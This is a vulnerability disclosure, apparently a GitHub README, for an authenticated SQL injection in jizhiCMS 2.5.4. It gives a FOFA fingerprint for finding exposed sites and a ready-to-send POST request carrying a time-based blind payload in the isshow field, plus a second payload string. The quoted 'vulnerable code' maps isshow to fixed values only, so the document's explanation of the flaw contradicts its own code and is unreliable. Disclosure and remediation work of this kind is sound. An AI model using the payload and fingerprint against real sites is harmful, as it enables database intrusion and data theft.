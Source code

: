 # jizhicms-sql
The jizhicms version 2.5.4 contains a backend SQL injection vulnerability.
There is a backend SQL injection vulnerability in jizhiCMS version 2.5.4.
Fingerprint
fofa:icon_hash="1657387632"
SQL Injection Vulnerability
The vulnerable file is located at:
jizhicms-2.5.4/app/admin/c/LinksController.php
This is where the backend SQL injection vulnerability exists in jizhiCMS version 2.5.4.
Vulnerability PoC (Proof of Concept)：
POST /index.php/admins/Links/addlinks/molds/links.html HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Priority: u=0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://154.217.245.237:1234/index.php/admins/Links/addlinks/tid/1/molds/links.html
Cookie: PHPSESSID=umgc0aguscmvgmjv96mvjmpd81
Accept-Encoding: gzip, deflate
Origin: http://154.217.245.237:1234
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Content-Length: 47

go=1&tid=1&title=qwd&url=www.baidu.com&isshow=1'and(select*from(select+sleep(6))a/**/union/**/select+1)='

Vulnerability Type: Backend SQL Injection
Affected File/Function: LinksController.php – Parameter handling for isshow
Component: jizhiCMS 2.5.4
Attack Vector: Authenticated POST request
Vulnerable Code:
if($this->frparam('isshow')){
    if($this->frparam('isshow')==1){
        $isshow=1;
    }else if($this->frparam('isshow')==2){
        $isshow=0;
    }else{
        $isshow = 2; // default fallback
    }
    $sql .= ' and isshow='.$isshow; // directly concatenated
}
Description:

This code is vulnerable to SQL injection due to the direct concatenation of unvalidated user input ($isshow) into the SQL query string. While the application attempts to convert the isshow parameter to specific numeric values (1 or 0), it fails to enforce strong input validation or type safety. If an attacker supplies a specially crafted payload through isshow, such as:
isshow=1' AND (SELECT * FROM (SELECT SLEEP(5))a) AND '1'='1
The application may construct a query that causes SQL logic manipulation or time-based blind injection, depending on the database context.

Impact:
Unauthorized SQL execution
Information disclosure
Potential remote code execution (if combined with other vulnerabilities)
Database integrity compromise
Recommendation:
Sanitize and strictly cast input values to expected types (e.g., use (int)$this->frparam('isshow'))
Replace raw SQL concatenation with prepared statements (parameterized queries)

![image](https://github.com/user-attachments/assets/476d6f79-36af-46a7-a087-2debeb7fc467)
![image](https://github.com/user-attachments/assets/fbba5834-5a02-42e3-b8b1-72be96c69872)



